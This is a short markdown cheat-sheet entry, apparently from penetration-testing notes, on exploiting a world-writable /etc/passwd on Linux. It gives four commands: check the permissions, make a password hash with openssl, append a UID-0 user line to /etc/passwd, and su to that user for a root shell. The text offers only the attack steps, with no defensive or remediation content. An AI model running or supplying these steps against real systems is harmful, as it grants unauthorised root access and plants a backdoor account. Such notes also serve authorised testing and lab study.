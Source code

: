 ```yaml
---
title: "Writable /etc/passwd"
date: 2024-7-1
tags: ["passwd", "shadow", "/etc/passwd", "privesc"]
---
```


---
### Abuse #1: Writable /etc/passwd

```bash
# Check
ls -l /etc/passwd /etc/shadow
```

```bash
# Create password hash
openssl passwd -1 password
```

```bash
# Add to /etc/passwd
echo 'user:$1$mQ8Xk.u8$XjFlyg01xLRjhCK/v//Qe/:0:0:comment:/root:/bin/bash' >> /etc/passwd
```

```bash
# Get root shell
su - user
```

<br>